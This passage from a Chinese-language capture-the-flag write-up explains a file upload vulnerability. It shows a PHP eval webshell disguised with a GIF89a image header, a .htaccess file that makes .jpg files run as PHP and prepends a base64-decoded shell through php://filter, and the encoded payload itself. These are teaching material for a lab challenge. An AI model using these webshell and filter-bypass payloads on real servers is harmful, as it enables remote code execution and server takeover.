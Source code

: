 ![3.png](3.png)

### 文件上传漏洞

刚刚是意外解, 按照题意此处应该还有一环文件上传漏洞:

#### 构造木马

由于这里限定了只能上传图片, 那么构造典型的一句话木马:

```php
GIF89a
<?=@eval($_POST['shell']);?>
// 重命名为 shell.jpg
```

其中前面的 `GIF89a` 是伪装的图片文件头。现在的问题是解决 `<?` 处的过滤。

首先想到的是用 `<script>@eval($_POST['shell']</script>` 这个木马, 但是这个用法仅限 php 版本为 `5.x`, 当前环境为 7.0, 只能找其他方法;

先上传一个 `.htaccess` 文件, 这个文件可以指定特定名称/后缀的文件按指定方式解析, 并且支持 php 伪协议:

> 下面这个文件, 指定了 `jpg` 文件按 php 解析, 并且 `shell.jpg` 这个文件按 base64 编码解码后执行;

```php
#define width 1337
#define height 1337
php_value auto_prepend_file "php://filter/convert.base64-decode/resource=./shell.jpg"
AddType application/x-httpd-php .jpg
```

> 下面这个文件就是 `shell.jpg`, 正文是 `<?=@eval($_POST['shell']);?>` 的 base64 编码, 又因为 base64 编码是自动补足四位 (用 `=` 补全), PHP 将会按 4 位解析, 因此需要保证文件头是 4 的倍数, 随便填两个。

```jpg
GIF89a00
PD89QGV2YWwoJF9QT1NUWydzaGVsbCddKTs/Pg==
```
